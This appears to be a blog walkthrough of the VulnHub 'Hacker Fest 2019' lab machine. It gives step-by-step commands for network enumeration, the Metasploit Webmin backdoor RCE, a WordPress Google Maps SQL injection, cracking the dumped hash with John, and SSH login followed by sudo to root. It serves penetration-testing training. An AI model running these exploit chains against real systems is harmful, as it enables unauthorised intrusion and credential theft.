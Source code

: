 ```yaml
---
published: true
category: vulnhub
---
```

**Url**: [HF VulnHub](https://www.vulnhub.com/entry/hacker-fest-2019,378/) 

**Difficulty**: Easy 

**Author**: Martin Haller

### Enumeration

Firstly, a netdiscover scan will reveal how the machine can be identified on the network:

<pre>netdiscover -i eth1</pre>
    
![netdiscover](https://imgur.com/7ukhwVk.png)

Then an nmap scan:

<pre>nmap -p- -A 192.168.56.112</pre>

![nmap](https://imgur.com/oJwydwu.png)

### FTP

The port scan reveals ports 21 (ftp), 22 (ssh) and 10000 which seems to be hosting Webmin. I will attempt to connect via FTP via Anonymous. This was an extremely easy way to gain access to all the wordpress websites files, however I will be exploring other methods which require more exploitation. 

![ftp](https://imgur.com/HMUog0K.png)

Some simple enumeration and an understanding of back end web apps will get you the right information.

### Webmin

Some research shows a Webmin 1.920 vulnerability. I use searchsploit to find these vulnerabilities. 
I am particularly interested in the Unauthenticated Remote Code Execution. 

![ss](https://imgur.com/LXDbbsN.png)

On metasploit console, we use the webmin exploit and fill out the necessary options as demonstrated below:

<pre>msfconsole
use exploit/linux/http/webmin_backdoor
show options
set rhosts 192.168.56.112
set ssl true
set lhost 192.168.56.101</pre>

![msf](https://imgur.com/82fsLmB.png)

The exploit is ready to go.

<pre>exploit
id</pre>

![root](https://imgur.com/S4YAYol.png)

Root access.

### Wordpress

Another attack vector is the Wordpress site on port 80.

![wordpress](https://imgur.com/QQEnpNS.png)

WPScan will be used to find any vulnerabilities and possible users on the website. Please note that you use a WPScan API Token from [here](https://wpvulndb.com) to view the vulnerable data.

<pre>wpscan --url http://192.168.56.112/ -e vp,u</pre>

![wpscan](https://imgur.com/RGq0tck.png)

After some research, the [Unauthenticated SQL Injection vulnerability](https://www.rapid7.com/db/modules/auxiliary/admin/http/wp_google_maps_sqli) seems like the best route to go down. There is a Metasploit module for this. 

Something else to note is the username 'webmaster' found on the Wordpress site. 

<pre>msfconsole
use auxiliary/admin/http/wp_google_maps_sqli
show options
set RHOSTS 192.168.56.112</pre>

![msfwp](https://imgur.com/0meG4gb.png)

The exploit has been correctly set up. Run the exploit.

<pre>exploit</pre>

![exploit](https://imgur.com/ppsBmh8.png)

A hash value has been returned with the correct username that was found before on the WPScan results.

<pre> 192.168.56.112:80 - Found webmaster $P$BsqOdiLTcye6AS1ofreys4GzRlRvSr1 webmaster@none.local </pre>

Let's ask our friend John to crack it. Use rockyou.txt as the wordlist.

<pre>echo "$P$BsqOdiLTcye6AS1ofreys4GzRlRvSr1" > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt</pre>

![john](https://imgur.com/anjD7Hz.png)

The password "kittykat1" has been returned.

Let's try connect via ssh:

<pre>ssh webmaster@192.168.56.112
kittykat1</pre>

![ssh](https://imgur.com/cR73wtu.png)

We are logged in as webmaster. 
Check the sudo privileges with the following command:

<pre>sudo -l</pre>

This user is basically already root so let's just change to root shell with the following:

<pre>sudo -i</pre>

And we are root.

![root](https://imgur.com/Xti6L5k.png)